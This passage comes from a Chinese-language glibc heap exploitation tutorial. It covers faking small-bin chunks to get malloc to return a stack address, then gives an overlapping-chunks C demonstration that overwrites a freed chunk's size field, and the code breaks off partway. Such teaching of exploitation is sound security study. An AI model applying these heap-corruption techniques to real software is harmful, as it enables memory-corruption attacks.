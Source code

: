 ![image-20211226161122987](/assets/wgpsec/images/heap/image-20211226161122987.png)

​    Glibc在malloc的时候会检查small bin链表中第二块chunk的bk指针是否指向第一块，来发现对small bins的破坏。为了绕过这个检查，所以才需要同时伪造bin中的前两个chunk。

​    接下来释放掉victim chunk，它首先会被放到fast bin中，这时候我们再去malloc一个large chunk，那么就会触发fast bin的合并，然后victim chunk就放到了unsorted bin中，最终被整理到small bin中。

​    接下来的第一个相应大小的malloc，会返回victim chunk的地址，再一次malloc将返回fake chunk 1的地址，地址在栈上且我们能够控制。

 ![image-20211226161127920](/assets/wgpsec/images/heap/image-20211226161127920.png)

​    于是我们就成功地骗过了malloc在栈上分配了一个chunk。最后再想一下，其实最初的victim chunk使用fast chunk也是可以的，其释放后虽然是被加入到 fast bins中，而不是unsorted bin，但malloc之后，也会被整理到small bins里。自行尝试吧。

## overlapping_chunks

             ```c
             #include <stdio.h>
             #include <stdlib.h>
             #include <string.h>
             #include <stdint.h>
             
             int main(int argc , char* argv[]){
             
                 intptr_t *p1,*p2,*p3,*p4;
                 fprintf(stderr, "这是一个简单的堆块重叠问题，首先申请 3 个 chunk\n");
             
                 p1 = malloc(0x100 - 8);
                 p2 = malloc(0x100 - 8);
                 p3 = malloc(0x80 - 8);
                 fprintf(stderr, "这三个 chunk 分别申请到了:\np1：%p\np2：%p\np3：%p\n给他们分别填充\"1\"\"2\"\"3\"\n\n", p1, p2, p3);
             
                 memset(p1, '1', 0x100 - 8);
                 memset(p2, '2', 0x100 - 8);
                 memset(p3, '3', 0x80 - 8);
             
                 fprintf(stderr, "free 掉 p2\n");
                 free(p2);
                 fprintf(stderr, "p2 被放到 unsorted bin 中\n");
             
                 fprintf(stderr, "现在假设有一个堆溢出漏洞，可以覆盖 p2\n");
                 fprintf(stderr, "为了保证堆块稳定性，我们至少需要让 prev_inuse 为 1，确保 p1 不会被认为是空闲的堆块\n");
             
                 int evil_chunk_size = 0x181;
                 int evil_region_size = 0x180 - 8;
                 fprintf(stderr, "我们将 p2 的大小设置为 %d, 这样的话我们就能用 %d 大小的空间\n",evil_chunk_size, evil_region_size);
             
                 *(p2-1) = evil_chunk_size; // 覆盖 p2 的 size
             
                 fprintf(stderr, "\n现在让我们分配另一个块，其大小等于块p2注入大小的数据大小\n");
                 fprintf(stderr, "malloc 将会把前面 free 的 p2 分配给我们（p2 的 size 已经被改掉了）\n");
                 p4 = malloc(evil_region_size);
             
                 fprintf(stderr, "\np4 分配在 %p 到 %p 这一区域\n", (char *)p4, (char *)p4+evil_region_size);
                 fprintf(stderr, "p3 从 %p 到 %p\n", (char *)p3, (char *)p3+0x80-8);
                 fprintf(stderr, "p4 应该与 p3 重叠，在这种情况下 p4 包括所有 p3\n");
             